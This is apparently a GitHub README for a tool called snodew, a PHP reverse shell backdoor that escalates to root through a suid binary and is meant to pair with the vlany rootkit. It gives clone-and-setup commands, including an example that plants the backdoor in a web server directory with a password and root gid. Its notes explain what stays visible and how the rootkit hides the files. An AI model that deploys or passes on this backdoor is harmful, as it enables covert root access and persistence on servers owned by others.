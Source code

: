 # snodew
*snodew is a PHP reverse shell backdoor which uses a small suid binary to escalate privileges on connection*</br></br>snodew is made mainly to work alongside [vlany](https://github.com/mempodippy/vlany) but can also be setup as a regular root backdoor

## usage
```
git clone https://github.com/mempodippy/snodew.git
cd snodew/
./setup.sh [install dir] [password] [hidden extended attribute] [magic gid]
```

### example usage for regular (non-vlany infected) systems
```
cd /tmp
git clone https://github.com/mempodippy/snodew.git
cd snodew/
./setup.sh /var/www/html/blog sexlovegod X 0 # 'X' and '0' since extended attribute doesn't really matter,
                                             # and our suid binary will set our gid to 0
```
<img src="http://i.imgur.com/YneuIpp.png"/></br>
*Result of successful setup*

<img src="http://i.imgur.com/AwlnKt6.png"/></br>
*Result after following instructions given on our new page*

## notes
 * sh process spawned from service user is visible
 * if not being used alongside some kind of rootkit, everything you do is visible
 * it's only a reverse shell
 * when vlany is installed, simply su'ing to the service user won't allow them to see the files. vlany checks to see if an apache environment variable is also exported before giving access to the file, so that - by default - the file can only be accessed from a browser or from an owner shell
  * exporting the apache environment variable that vlany checks, after su'ing to the service user will circumvent this
 * suid possibly disabled
